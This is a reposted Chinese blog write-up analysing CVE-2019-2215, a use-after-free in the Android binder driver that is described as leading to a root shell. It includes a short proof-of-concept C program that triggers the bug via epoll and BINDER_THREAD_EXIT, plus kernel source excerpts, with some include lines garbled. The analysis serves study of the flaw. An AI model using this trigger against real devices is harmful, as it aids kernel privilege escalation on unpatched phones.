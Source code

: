 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.csdn.net](https://blog.csdn.net/qq_37439229/article/details/122844267?spm=1001.2014.3001.5501)

CVE-2019-2215
=============

复现环境：android 10 kernel: Linux localhost 4.14.150+ arch:x86_64 [架构](https://so.csdn.net/so/search?q=%E6%9E%B6%E6%9E%84&spm=1001.2101.3001.7020)

exp 只适用于 x86(主要是在 patch addr_limit 上) 其他的架构要根据 addr_limit 在 thread_info 或是 thread_struct 的偏移修改.

漏洞简述
----

CVE-2019-2215 是一个谷歌 P0 团队发现的与 binder 驱动相关的安卓内核 UAF 漏洞, 配合内核信息泄漏可以实现任意地址读写, 进而可以通过权限提升获取一个 root 权限的 shell。

漏洞分析
----

主要来根据 poc 来说明漏洞及其触发

```
// poc.c
 #include  #include  #include #include 
 #define BINDER_THREAD_EXIT 0x40046208ul
 
 int main() {
     int fd, epfd;
     struct epoll_event event = {.events = EPOLLIN};
 
     fd = open("/dev/binder", O_RDONLY);
     epfd = epoll_create(1000);
     epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
     ioctl(fd, BINDER_THREAD_EXIT, NULL);
     epoll_ctl(epfd, EPOLL_CTL_DEL, fd, &event);
 }

```

首先是第一句

```
 fd = open("/dev/binder", O_RDONLY);

```

具体调用的是 binder_open

```
// drivers/android/binder.c 
static const struct file_operations binder_fops = {
     [...]
     .open = binder_open,
     [...]
 };
static int binder_open(struct inode *nodp, struct file *filp)
 {
         struct binder_proc *proc;
         [...]
         proc = kzalloc(sizeof(*proc), GFP_KERNEL);
         if (proc == NULL)
                 return -ENOMEM;
         [...]
         filp->private_data = proc;
         [...]
         return 0;
 }

```